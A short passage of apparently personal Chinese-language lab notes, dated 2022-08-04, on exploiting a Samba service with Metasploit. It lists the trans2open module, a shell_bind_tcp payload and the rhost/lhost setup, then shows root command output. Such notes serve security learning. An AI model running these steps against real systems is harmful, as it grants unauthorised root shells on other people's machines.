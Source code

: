     对Samba漏洞进行利用
    ```

* 漏洞利用

    ```php

    msf

    search linux/samba/trans2open

    set payload linux/x86/shell_bind_tcp
    
    然后调好rhost 和 lhost这些，运行

    id
    uid=0(root) gid=0(root) groups=99(nobody)

    ```

## 启发

* 对于在kali或者msf里面搜索漏洞然后利用的内容还是要学习


-------------------2022-08-04---------------------